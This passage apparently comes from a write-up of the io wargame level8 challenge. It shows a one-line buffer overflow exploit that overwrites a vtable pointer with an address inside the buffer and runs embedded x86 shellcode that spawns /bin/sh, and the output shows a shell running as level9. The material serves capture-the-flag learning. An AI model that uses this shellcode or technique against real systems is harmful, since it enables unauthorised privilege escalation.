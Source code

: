 oki .. after a couble of tries I figured out that I need to take account for the dereference for the v-table. So to account for this we can point 4 bytes deeper within our buffer.

```sh
level8@io:/levels$ echo "obase=16;ibase=16;804A00C+4"|bc
804A010
level8@io:~$ /levels/level08 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"A"*51 + "\x0c\xa0\x04\x08"')
sh-4.2$ whoami
level9
```

"Fun And Profit"
